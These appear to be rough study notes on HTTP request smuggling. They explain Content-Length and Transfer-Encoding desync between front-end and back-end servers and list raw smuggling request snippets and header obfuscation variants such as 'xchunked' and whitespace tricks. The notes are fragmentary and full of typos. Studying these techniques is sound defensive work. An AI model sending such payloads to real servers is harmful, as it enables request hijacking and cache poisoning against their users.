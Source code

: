 Funneled by single stream...An attack can then send an ambiguious first message that then get merged by a second when the first is unparsable in its ending

Prefix on the back-end that is then hit by another message.

Classic - wont work on anything modern but a good example:
```
POST / HTTTP /1.1
HOST: example.com
Content-Length: 6 <- Frontend sees this
Content-Length: 5 <- Backend sees this

12345G

```
POST / HTTP /1.1
HOST: example.com 
```
Unknown GPOST response

Chunked Approach 

```
...
Content-Length: 6 <- Frontend sees this
Transefer-Encoding: chunked <- Backend sees this

```

What if Header are parsed in the opposite *"\*-End Sees.."* configuration to the above?

RFC 2616: *"If a message is recieved with both a Transfer-Encoding header field and a Content-Lengtyh header field, the latter MUST be ignored."*

If one server does not supprt chunk it will fallback to Content-Length

Some Normalise white space
Some Token xchunked

```
Transfer-Encoding: chunked 
Content-Length: 123
```

```
Transfer-Encoding: chunked 
```
albinowax's:
```
Transfer-Encoding: xchunked 
```

```
GET / HTTP/1.1
Transfer-Encoding: chunked 
```

```
Transfer-Encoding
   :  chunked 
```

```
Transfer-Encoding: chunked
Transfer-Encoding: x
```

```